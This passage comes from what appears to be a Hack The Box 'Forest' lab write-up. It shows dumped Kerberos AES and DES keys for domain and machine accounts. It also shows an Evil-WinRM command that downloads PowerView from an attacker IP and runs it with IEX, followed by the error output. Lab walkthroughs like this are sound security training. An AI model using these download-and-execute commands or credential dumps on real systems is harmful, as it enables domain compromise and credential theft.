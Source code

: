     htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
    htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
    htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
    htb.local\sebastien:aes256-cts-hmac-sha1-96:6f8ab2c7e297c3a11b31d0a3ba7e1118286008574182db0d90ef8bd8f96acd34
    htb.local\sebastien:aes128-cts-hmac-sha1-96:35f41fce714e9a624e25a6411069e869
    htb.local\sebastien:des-cbc-md5:529dc47a4cdcf1c2
    htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
    htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
    htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
    htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
    htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
    htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
    htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
    htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
    htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
    htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
    htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
    htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
    htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
    htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
    htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
    p3:aes256-cts-hmac-sha1-96:ac3ab772908655869d3509d4c6d1e0d418d55b48e796548566640142ba18e224
    p3:aes128-cts-hmac-sha1-96:eefda4ed27816b2235d24018e98b649c
    p3:des-cbc-md5:43da5ec26d7cf4f2
    FOREST$:aes256-cts-hmac-sha1-96:6519e869415cad7deb8aa5dcfd89db611ee918200c2f8dbe0629f86b78f674dc
    FOREST$:aes128-cts-hmac-sha1-96:b3ae4c5bada7d4eddc80fcebe409bc77
    FOREST$:des-cbc-md5:c7e33bb334863e9d
    EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
    EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
    EXCH01$:des-cbc-md5:8c45f44c16975129
    [*] Cleaning up...


(OPTIONAL)
Same can also be done using PowerView. Even though we get a lot of errors, the commands still go through and are successfull.

*Evil-WinRM* PS C:\Users\p3\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8080/PowerView.ps1')
  Cannot bind argument to parameter 'Type' because it is null.
  At line:20775 char:31
  +     lgrmi2_sidusage = field 1 $SID_NAME_USE
  +                               ~~~~~~~~~~~~~
      + CategoryInfo          : InvalidData: (:) [field], ParameterBindingValidationException
      + FullyQualifiedErrorId : ParameterArgumentValidationErrorNullNotAllowed,field
  Cannot bind argument to parameter 'Type' because it is null.
  At line:20808 char:21
  +     Flags = field 2 $DsDomainFlag
  +                     ~~~~~~~~~~~~~
      + CategoryInfo          : InvalidData: (:) [field], ParameterBindingValidationException
      + FullyQualifiedErrorId : ParameterArgumentValidationErrorNullNotAllowed,field
